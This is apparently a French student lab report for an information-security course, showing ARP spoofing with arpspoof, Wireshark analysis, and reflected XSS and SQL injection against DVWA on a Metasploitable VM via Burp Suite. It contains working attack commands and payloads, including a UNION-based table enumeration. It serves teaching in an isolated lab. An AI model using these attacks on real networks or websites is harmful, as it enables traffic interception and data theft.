







# Mini-Projet 3 
**Cours : Sécurité des Systèmes d'Information – ECE 2025-2026**

---

## Architecture utilisée

| Machine | Rôle | IP (exemple) |
|---------|------|--------------|
| Kali Linux | Attaquant | 192.168.1.50 |
| Metasploitable | Victime | 192.168.1.101 |

> La VM Metasploitable est indispensable pour les parties 3A, 3C et 3D.
> Elle se télécharge sur : https://sourceforge.net/projects/metasploitable/files/Metasploitable2/
> Identifiants : `msfadmin` / `msfadmin`

---

## Partie 3A – ARP Spoofing

### Réponse

L'attaque ARP spoofing nécessite au moins deux machines sur le même réseau. On utilise Kali comme attaquant et Metasploitable comme victime.

**1. Installation des outils sur Kali**
```bash
sudo apt install dsniff net-tools -y
```

**2. Vérifier la connectivité et noter les IPs**
```bash
ip addr                        
ping 192.168.100.2            
route -n                       
```

**3. Vérifier le cache ARP AVANT l'attaque sur Kali**
```bash
arp -a
# Noter l'adresse MAC associée à l'IP de la passerelle — c'est la MAC légitime
```

**4. Lancer l'attaque ARP spoofing**

Se faire passer pour la passerelle auprès de Metasploitable :
```bash
sudo arpspoof -i eth0 -t 192.168.1.101 192.168.1.1
```



**5. Vérification depuis Metasploitable**

Se connecter à Metasploitable :
```bash
arp -a
```

ARP n'a aucun mécanisme d'authentification : n'importe qui peut envoyer une réponse ARP non sollicitée. Kali se place en **Man-in-the-Middle** entre Metasploitable et la passerelle, interceptant tout le trafic qui passe entre eux.

---

## Partie 3B – Capture et analyse avec Wireshark

### Réponse

Wireshark tourne directement sur Kali pendant que l'attaque ARP est active.

**1. Lancer Wireshark sur Kali**
```bash
sudo wireshark
```
On sélectionne eth0

**2. Relancer l'attaque ARP en parallèle**

On relance les arp spoof

**3. Filtres Wireshark utiles**

| Filtre | Description |
|--------|-------------|
| `arp` | Toutes les trames ARP |
| `arp.opcode == 1` | Requêtes ARP uniquement |
| `arp.opcode == 2` | Réponses ARP uniquement |
| `arp.src.proto_ipv4 == 192.168.1.50` | Trames ARP envoyées par Kali (l'attaquant) |
| `arp.dst.proto_ipv4 == 192.168.1.101` | Trames ARP ciblant Metasploitable |

**4. Analyser une trame ARP spoofée**

On Sélectionne une trame ARP reply dans la liste. Dans le panneau du bas, on a :
- **Sender MAC** : adresse MAC de Kali (l'attaquant)
- **Sender IP** : adresse IP de la passerelle (`192.168.1.1`)
- → Metasploitable reçoit "la passerelle a la MAC de Kali" → cache empoisonné


Wireshark capture au niveau de la couche 2 (liaison). On voit clairement les réponses ARP frauduleuses : une même IP (passerelle) associée à une MAC différente de la légitime — c'est la preuve de l'empoisonnement.

---

## Partie 3C – Exploitation XSS & Injection SQL DVWA sur Metasploitable

### Réponse

**1. Accéder au DVWA depuis Kali**

Ouvrir Firefox sur Kali et aller à :
```
http://192.168.1.101/dvwa/
```
- Login : `admin`
- Mot de passe : `password`

Aller dans **DVWA Security** → mettre le niveau à **Low** → cliquer Submit.



**2. Exploitation XSS Cross-Site Scripting**

Dans le menu gauche sur dvwa, cliquer sur **XSS (Reflected)**.

Dans le champ "What's your name?", entrer :

Payload basique, afficher une alerte :
```html
<script>alert("XSS");</script>
```

Cliquer sur **Submit** → une alerte JavaScript apparaît dans le navigateur.


L'application réinjecte directement le contenu du champ dans la page HTML sans filtrer. Le navigateur interprète le `<script>` comme du code légitime. En conditions réelles, cela permet de voler des cookies de session ou rediriger vers un site malveillant.

**3. Exploitation Injection SQL**

Dans le menu gauche toujours sur dvwa, on clique sur **SQL Injection**.

Dans le champ "User ID", entrer :

Payload basique — afficher tous les utilisateurs :
```sql
1' or '1'='1
```
Cliquer sur **Submit** → toutes les entrées de la base de données s'affichent.



Autre Payload, afficher le nom des tables :
```sql
1' union select table_name,2 from information_schema.tables where table_schema = database()#
```


La requête SQL interne ressemble à `SELECT * FROM users WHERE id='$input'`. En injectant `1' or '1'='1`, la condition devient toujours vraie et retourne toutes les lignes. L'entrée utilisateur n'est jamais validée ni échappée.

---

## Partie 3D – Test avec Burp Suite

### Réponse

**1. Lancer Burp Suite**
```bash
burpsuite
```
Choisir **Temporary project** → Next → **Start Burp**.

**2. Configurer le proxy dans Firefox**

Firefox → Settings → chercher "proxy" → **Manual proxy configuration** :
- HTTP Proxy : `127.0.0.1`
- Port : `8080`
- Cocher **"Use this proxy server for all protocols"**
- Cliquer OK



**3. Installer le certificat Burp dans Firefox**

Aller sur `http://burp` dans Firefox → cliquer **CA Certificate** pour télécharger.

Firefox → Settings → chercher "certificates" → **View Certificates** → onglet **Authorities** → **Import** → sélectionner le fichier téléchargé → cocher **"Trust this CA to identify websites"** → OK.

**4. Intercepter une requête**

Dans Burp Suite il faut aller dans l'onglet **Proxy** → s'assurer que **"Intercept is on"** est activé.

Naviguer sur `http://192.168.1.101/dvwa/` dans Firefox → les requêtes apparaissent dans Burp.



**5. Tester l'injection SQL via le Repeater**

Sur la page SQL Injection du DVWA, entrer `1` et cliquer Submit.

Dans Burp → clic droit sur la requête interceptée → **Send to Repeater**.

Dans l'onglet **Repeater**, localiser le paramètre `id` dans la requête et le modifier par:
```
id=1'+or+'1'%3D'1
```
ensuite on clique sur **Send** → la réponse à droite affiche tous les utilisateurs.



**6. Tester XSS via le Repeater**

Sur la page XSS (Reflected) du DVWA, entrer un nom et cliquer Submit.

Envoyer la requête au Repeater, modifier le paramètre `name` :
```
name=<script>alert('XSS')</script>
```
Cliquer **Send** → la réponse HTML contient le script injecté.

**7. Désactiver le proxy après les tests**

Firefox → Settings → proxy → **Use system proxy settings**

Burp Suite agit comme un proxy intermédiaire entre Firefox et le serveur. Il permet d'intercepter, modifier et rejouer chaque requête HTTP — technique fondamentale du pentest web pour manipuler des paramètres normalement cachés.

---
